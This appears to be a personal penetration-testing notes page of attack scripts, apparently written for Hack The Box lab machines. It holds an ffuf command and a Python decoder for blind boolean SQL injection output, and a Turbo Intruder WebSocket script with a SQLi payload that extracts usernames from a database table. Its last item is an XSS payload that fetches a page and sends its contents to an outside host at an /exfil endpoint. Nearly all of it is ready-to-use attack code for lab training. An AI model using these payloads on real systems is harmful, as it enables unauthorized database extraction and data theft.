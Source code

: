 # Scripts

## SQLi

### Converting Blind Boolean ffuf output to ASCII

`ffuf -request request.txt -request-proto http -w ../../scripts/num.txt:HFUZZ -w ../../scripts/charlist.txt:WFUZZ -fw 73`

<div align="left"><figure><img src="../../.gitbook/assets/image (6).png" alt="" width="506"><figcaption></figcaption></figure></div>

```bash
cat output | grep '*' > newoutput
```

```python
file=open("newoutput","r")
dic = {}
while True:
    keyv = file.readline()
    if not keyv:
        break
    key = keyv.split(':')[1].replace("\n","").strip()
    valv = file.readline()
    val = valv.split(':')[1].replace("\n","").strip()
    dic[key]=val


l = [0] * len(dic)
for i in range(1,len(dic)+1):
    l[i-1] = dic[str(i)]
text = ''.join(chr(int(value)) for value in l)
print(text)
```

### WebSockets Blind Boolean&#x20;

```python
#Body in Request Panel of WebSocket Turbo Intruder
{
"id": "0 OR MID((SELECT username FROM soccer_db.accounts LIMIT 0,1),$1,1)='$2'"
}

import time
def queue_websockets(upgrade_request, message):
    connection1 = websocket_connection.create(upgrade_request)
    template = message
    with open('/home/jtripz/htb/scripts/smallcharlist.txt') as file: 
        for i in range(1,10):
            for line in file:
                time.sleep (0.17)
                payload = build_payload(template,str(i), line.strip())
                connection1.queue(payload)
            file.seek(0)

def build_payload (template, *args):
    return_payload = template
    for i in range (0, len(args)):
        return_payload = return_payload.replace('$'+str(i+1), args[i])
    return return_payload
    

def handle_outgoing_message(websocket_message):
    results_table.add(websocket_message)

def handle_incoming_message(websocket_message):
    if websocket_message.getLength()==13:
        results_table.add(websocket_message)
```

## JS

### Fetch File via XSS

```javascript
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>
```
